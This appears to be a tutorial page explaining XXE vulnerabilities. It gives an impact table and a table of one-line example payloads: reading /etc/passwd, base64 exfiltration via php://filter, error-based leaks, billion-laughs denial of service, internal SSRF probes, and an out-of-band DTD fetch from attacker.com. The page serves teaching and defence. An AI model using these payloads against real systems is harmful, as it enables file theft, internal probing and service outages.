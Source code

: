 ### **Introduction**

XML External Entity (XXE) is a vulnerability where attacker manipulate XML processing to access server files, provoke server-side behaviors, or interact with backend systems, often leading to unauthorized data exposure or system impacts.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Server
    participant C as XML Parser
    participant U as User

    A->>B: 1. Sends XML Request with Malicious Payload
    B->>C: 2. Passes XML to Parser
    C-->>B: 3. Resolves External Entity (retrieves data)
    B-->>A: 4. Sends Response with Retrieved Data
```

### **The Impact of XXE Attacks**

| IMPACT                           | DESCRIPTION                                                                                                                                                                       |
|--------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Local File Inclusion             | Attacker can access and retrieve the contents of local files by using the "[file://](file://)" scheme.                                                                                  |
| Server-Side Request Forgery (SSRF)| The attacker could force the vulnerable server to send HTTP requests to other servers and then capture the responses using "http://" or "https://".                                      |
| Blind SSRF                       | Even when direct responses aren’t returned, attacker could forward the response data to an external server under their control by nesting entities.                                     |
| Information Disclosure           | Malformed XML payloads could cause the application to unintentionally leak sensitive information.                                                                                       |
| Denial-of-Service (DoS)          | Some XML parsers are prone to vulnerabilities that can crash the system when handling specially crafted XML files.                                                                      |

### **Overview of XXE Exploitation Techniques**

This table outlines different XXE exploitation techniques, showcasing example payloads and their effects. These methods leverage XML parser vulnerabilities to extract data, disrupt services, or access internal systems.

| PAYLOAD TYPE | EXAMPLE PAYLOAD | DESCRIPTION |
| --- | --- | --- |
| Remote Resource Retrieval | `<!ENTITY xxe SYSTEM "http://example.com/malicious.dtd">` | This method retrieves external resources by defining an entity that loads data from a remote URL. |
| Local File Disclosure (LFI) | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | This technique accesses local files on the server by specifying a local file path |
| Base64 Encoding for Data Exfiltration | `<!ENTITY data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">` | Encodes the contents of local files in Base64 format to bypass simple data leakage protections and exfiltrate data covertly. |
| Error-Induced Information Leakage | `<!ENTITY % err SYSTEM "file:///nonexistent/%file;"> <!ENTITY call '%err;'>` | Intentionally triggers errors that can leak server information or expose other vulnerabilities. |
| Out-of-Band (OOB) Interaction | `<!ENTITY % dtd SYSTEM "http://attacker.com/external.dtd"> %dtd;` | Uses external entities to initiate interactions with an attacker-controlled server, allowing data to be transmitted out-of-band. |
| Blind XXE for Service Probing | `<!ENTITY % xxe SYSTEM "http://internal-service.example.com/"> %xxe;` | Exploits blind XXE to probe internal systems and services by trying to interact with them. |
| Recursive Entity Expansion (Billion Laughs Attack) | `<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;"> ... <!ENTITY lol9 "&lol8;&lol8;">` | Causes a denial of service by creating an exponential growth in processing requirements through nested entities. |
| Parameter Entity Attack for SSRF | `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://private.example.com/"> %xxe;]>` | Uses parameter entities to construct requests for server-side request forgery (SSRF), targeting internal or external systems. |
| Complex Nested Entities | `<!DOCTYPE root [<!ENTITY % pe SYSTEM "http://example.com/ent.dtd"> %pe;]>` | Involves defining entities within entities, potentially leading to complex exploitations and unexpected behaviors from the XML parser. |